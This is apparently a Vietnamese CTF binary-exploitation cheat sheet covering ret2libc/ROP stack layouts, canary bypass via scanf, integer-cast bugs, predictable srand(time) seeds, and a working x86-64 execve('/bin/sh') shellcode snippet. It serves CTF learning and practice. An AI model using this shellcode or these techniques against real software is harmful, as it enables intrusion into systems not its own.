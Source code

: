 # ret2libc-ROP

- Overview:
   * pwntools '/bin/sh':  - `next(libc.search(b'/bin/sh'))` . 
   * Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
    ```
    STACK:
    1. địa chỉ lệnh "ret"
    2. địa chỉ lệnh "pop rdi, ret"
    3. địa chỉ lưu chuỗi 
    4. địa chỉ hàm gets

    5. địa chỉ lệnh "ret"
    6. địa chỉ lệnh "pop rdi, ret"
    7. địa chỉ muốn được in (đọc chuỗi)
    8. địa chỉ hàm printf 
    # leak = printf thì sau printf lại phải dùng ret
    9. địa chỉ lệnh "ret"
    10. địa chỉ nào đó muốn return về.
    ```
    * Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets. VD: `syscall ; ret` [dicectf 2023 - bop].
    * Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, *, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF . 
    * Lỗi ép kiểu là khi khai báo biến x là long (8 byte) nhưng khi xử lý điều kiện ép kiểu nó thành int (4 byte) dẫn đến sai về mặt giá trị so sánh (trên thanh ghi) => bug 
    * Viết sheelcode cần set context.binary

    ```python
    ...
    elf = ELF('./vuln')
    context.binary = elf
    p = elf.process()
    ...

    shellcode = asm('''
         instruction assembly
         ...
    ''')

    OR

    context.arch = 'amd64'
    shellcode = asm(
        f'''
        xor rdi, rdi
        push rdi
        mov rdi, 0x68732f2f6e69622f
        push rdi
        mov rdi, rsp
        xor rdx, rdx
        xor rcx, rcx
        xor rax, rax
        add al, 0x3b
        syscall
        ''')
    ```


- Technique:
    * [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
    * [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .

- OTHER LOGIC BUG: seed, permission, ...
    * __RANDOM => seed__: dùng seed có giá trị là thời gian thực lúc chạy chương trình, vì vậy tạo 1 script chạy cùng là xong

    * Nhiệm vụ của srand(x) đưa ra seed x rồi rand() dựa vào x đưa ra số a. Khi đó a là seed cho lần gọi rand() tiếp theo (cứ như thế tiếp tục). Do vậy VD trong vòng lặp thời gian 1 giây rand() dùng seed cũ liên tục nên nó không bao giờ ra số khác nhau trong khoảng thời gian đó.

    * VD: [Meshuggah](https://qbao.home.blog/2020/04/30/start-to-pwnb01lers-ctf/) .
    ```asm
    asm:
        mov edi, 0      ; time
        call _time
        add eax, 2
        mov edi, eax    ; seed
        call _srand
    ```

    ```C
    int main(){
        int seed = time(0) + 2;
        srand(seed);
        for(int i = 0; i < 100; i++)
            printf("%d\n", rand());
        return 0;
    }
    ```

    ```python
    from ctypes import CDLL
    from ctypes.util import find_library

    libc = CDLL(find_library("c"))

    libc.srand(0x5a35b162)
    print(libc.rand(), libc.rand(), libc.rand())
    ```
    * BRUTEFORCE - `TWOSHOT - KMACTF2022`
    * ...

